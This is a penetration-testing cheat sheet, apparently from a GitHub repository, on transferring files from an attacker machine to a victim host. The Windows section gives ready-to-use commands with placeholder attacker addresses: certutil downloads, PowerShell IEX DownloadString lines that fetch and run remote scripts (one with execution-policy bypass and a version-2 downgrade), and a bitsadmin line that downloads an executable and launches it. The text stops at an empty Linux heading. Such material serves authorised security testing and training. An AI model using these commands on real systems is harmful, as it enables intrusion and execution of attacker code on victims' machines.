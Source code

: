 #  Transferring Files

In many engagements you will need to be able to copy files between the victim machine and attacking machine.  This section outlines a number of common methods for transferring files for both Windows and Linux.  Note that this will usually rely on having the necessary files hosted on a webserver. This can be achieved by using python3 to create a temporary web server to host files on the attacker machine:
`python3 -m http.server 80`

## Windows 

### CertUtil.exe

CertUtil can be used to download files from a web server using the following command:

`certutil -urlcache -split -f "http://ip-addr:port/NameOfHostedFile" <output-file-name>`

### Powershell

Powershell can also be used to dowload and execute powershell scripts on a host:

`powershell IEX(New-Object Net.WebClient).DownloadString('http://<IPAddress>:<Port>/PowershellScript.ps1')`

Powershell Download and Execute script with execution bypass and Powershell Version 2:

`powershell -Version 2 -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://<IPAddress>:<Port>/PowershellScript.ps1')`

### BITS Admin

BITSAdmin can also be used to transfer files to a host with the following command: 

`cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://<ip address>:<port>/FileToTransfer.exe C:\Path\ExeOutputName.exe & start acrev.exe"`


## Linux
